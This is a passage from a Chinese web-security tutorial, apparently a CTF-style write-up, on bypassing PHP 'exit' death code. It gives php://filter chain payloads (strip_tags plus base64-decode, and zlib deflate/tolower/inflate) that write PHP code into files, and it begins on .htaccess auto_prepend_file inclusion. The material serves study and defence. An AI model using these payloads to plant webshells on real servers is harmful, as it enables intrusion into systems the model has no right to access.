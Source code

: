 [![](https://p5.ssl.qhimg.com/t01a51a90c19be08679.png)](https://p5.ssl.qhimg.com/t01a51a90c19be08679.png)

**<a class="reference-link" name="0x03:%E5%B5%8C%E5%A5%97%E7%BB%95%E8%BF%87"></a>0x03:嵌套绕过**

> strip_tags() 函数剥去字符串中的 HTML、XML 以及 PHP 的标签（php7.3之后移除）

除了上面的两种编码绕过，还可以使用嵌套过滤器的方式来进行绕过，在上面的过滤器列表中有一个`string.strip_tags`，可以去除剥去字符串中的 HTML、XML 以及 PHP 的标签，而`&lt;?php exit; ?&gt;`实际上便是一个XML标签，既然是XML标签，就可以利用strip_tags函数去除它，所以可以先将webshell用base64编码。调用完成strip_tags后再进行base64-decode。`死亡exit`在第一步被去除，而webshell在第二步被还原。

**payload：**

```
#php5
?file=php://filter/string.strip_tags|convert.base64-decode/resource=Sn0w.php
DATA:
content=?&gt;PD9waHAgcGhwaW5mbygpOz8+
#由于&lt;?php exit();不是完整的标签，所以需要加上?&gt;进行补全
```

[![](https://p0.ssl.qhimg.com/t01056f36fe92423326.png)](https://p0.ssl.qhimg.com/t01056f36fe92423326.png)

但是这种方法有局限性，因为string.strip_tags在php7以上的环境下会发生段错误，从而导致无法写入，在php5的环境下则不受此影响。

那如果环境是php7的话，也可以使用过滤器嵌套的方法来做，流程是先将三个过滤器叠加之后进行压缩，然后转小写，最后再解压，这样的流程执行结束后会导致部分死亡代码错误，便可以写进去我们想要写入的shell，原理很简单，就是利用过滤器嵌套的方式让死亡代码在各种变换之间进行分解扰乱，最终变成php无法识别的字符。

```
?file=php://filter/zlib.deflate|string.tolower|zlib.inflate|/resource=4.php
DATA:
content=php://filter/zlib.deflate|string.tolower|zlib.inflate|?&gt;&lt;?php%0dphpinfo();?&gt;/resource=4.php
或者
content=php/:|&lt;?php%0Dphpinfo();?&gt;/resource=4.php
```

[![](https://p1.ssl.qhimg.com/t0184cb9068a6b54def.png)](https://p1.ssl.qhimg.com/t0184cb9068a6b54def.png)

经过测试发现这里最好文件名尽量不要太复制，可能会导致写不进去

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01583c2d118942225f.png)

**<a class="reference-link" name="0x04:.htaccess%E7%9A%84%E9%A2%84%E5%8C%85%E5%90%AB%E5%88%A9%E7%94%A8"></a>0x04:.htaccess的预包含利用**

> .htaccess是一个纯文本文件，里面存放着Apache服务器配置相关的一些指令，它类似于Apache的站点配置文件,但只作用于当前目录，而且是只有用户访问目录时才加载，通过该文件可以实现网页301重定向，自定义404错误页面，改变文件拓展名，禁止目录列表等

通过 `php_value` 来设置 `auto_prepend_file`或者 `auto_append_file` 配置选项包含一些敏感文件, 同时在本目录或子目录中需要有可解析的 `php` 文件来触发。

```
php_value auto_prepend_file +文件绝对路径（默认为当前上传的目录）
```
